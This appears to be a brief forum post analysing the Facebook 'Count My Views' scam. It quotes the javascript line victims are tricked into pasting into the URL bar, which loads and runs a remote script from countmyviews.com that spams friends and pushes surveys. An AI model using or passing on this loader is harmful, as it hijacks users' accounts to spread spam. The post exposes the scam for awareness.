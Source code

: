 I'm just trying dissect the code behind the Facebook "Count My Views" and "See Who's Been Looking At Your Profile" scams. As far as I can tell, this scam has been around since at least early January 2011.

Currently the scam starts by asking the user to paste this in their URL Bar:
<code>javascript:(a=(b=document).createElement('script')).src='//countmyviews.com/js.js',b.body.appendChild(a);void(0)</code>

The javascript above injects some javascript into the Facebook page which runs this 'countmyviews' javascript. The 'countmyviews' javascriptv then chats all your friends and posts facebook statuses and creates a new event trying to get as many other people do the same thing. The end result is that after running the link (and accidentally spamming your friend) it takes you to a page asking you to fill out one of five or six surverys before finding out who has been visiting your profile page (all lies of course).

More information will be posted as I discover more.
